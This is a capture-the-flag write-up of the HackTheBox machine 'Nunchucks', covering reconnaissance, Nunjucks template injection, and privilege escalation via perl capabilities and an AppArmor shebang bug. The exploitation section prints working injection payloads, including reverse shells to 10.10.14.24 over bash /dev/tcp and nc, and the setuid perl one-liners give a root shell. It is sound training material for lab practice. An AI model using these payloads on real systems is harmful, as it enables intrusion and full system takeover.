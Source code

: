 ```yaml
---
title: Nunchucks
tags:
  - HackTheBox
  - Easy
  - Linux
  - SSTI
  - Nodejs
  - Capabilities
  - AppArmor
  - Perl
date: 2024-09-13T00:00:00Z
---
```

![](Pasted%20image%2020241113095057.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nunchucks.htb > sC.txt

[redacted]
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  https
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

So I took a look at the webpage:

![](Pasted%20image%2020241113095424.png)

Inspecting the source code I discovered the `/signup` section, but it's currently unavailable:

![](Pasted%20image%2020241113095638.png)

So I decided to check for virtual hosts enumeration with [Wfuzz 🐙](/notes/tools/wfuzz.md):

```shell
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb

[redacted]
=====================================================================
ID           Response   Lines    Word       Chars       Payload              
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```

So I added the new vhost and visited it:

![](Pasted%20image%2020241113102749.png)

Checking Wappalyzer, it seems that the server is using Node.js.

### Exploitation

If we check [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), we can find a NUNJUCKS SSTI:
- More detailed in [disse.cting](https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

```shell
{{7*7}} = 49
{{foo}} = No output
#{7*7} = #{7*7}
{{console.log(1)}} = Error
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
# revshell
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.24/666 0>&1\"')")()}}
```

I got errors executing the upper payloads:

![](Pasted%20image%2020241113104255.png)

So I escaped the quotes:

```shell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gitblanc.com"}
# revshell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkfifo /tmp/fmkltf; nc 10.10.14.24 666 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf')\")()}}@gitblanc.com"}
```

![](Pasted%20image%2020241113104430.png)

![](Pasted%20image%2020241113105307.png)

> I got a reverse shell :D and can read user flag

![](Pasted%20image%2020241113105248.png)

![](Pasted%20image%2020241113105431.png)

## Privilege escalation

Enumerating the filesystem we see that `perl` has setuid capabilities set:

```shell
getcap -r / 2>&1 | grep -v 'Operation not permitted' | grep -v 'Operation not supported'

[redacted]
/usr/bin/perl = cap_setuid+ep
```

So I checked [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid):

```shell
which perl
/usr/bin/perl

# Then
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

If we now try to read the `/etc/shadow` file we can't even with the `setuid` enabled:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /etc/shadow";'
cat: /etc/shadow: Permission denied
```

So I checked the output of the `whoami` command:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

I tried to read the `root.txt` flag but had no permissions:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission denied
```

This has to be an AppArmor Profile stablished for perl. If we perform some enumeration:

```shell
ls /etc/apparmor.d/

[redacted]
-rw-r--r--   1 root root   442 Sep 26  2021 usr.bin.perl
```

There is a profile for perl :/

Inspecting the root path, I found a script in `/opt`:

![](Pasted%20image%2020241113110849.png)

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

We can see that the script has the `setuid` set to 0, but we cannot make any changes to the script. 

I checked the Apparmor version:

```shell
apparmor_parser --version
AppArmor parser version 2.13.3
```

So I searched in Google for "*Apparmor bugs*". I found the following [shebang bug](https://bugs.launchpad.net/apparmor/+bug/1911431) in Launchpad, so I created a script that executes a shell as root:

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

> I executed it and became root. Got root flag!

![](Pasted%20image%2020241113111954.png)

==Machine pwned!==



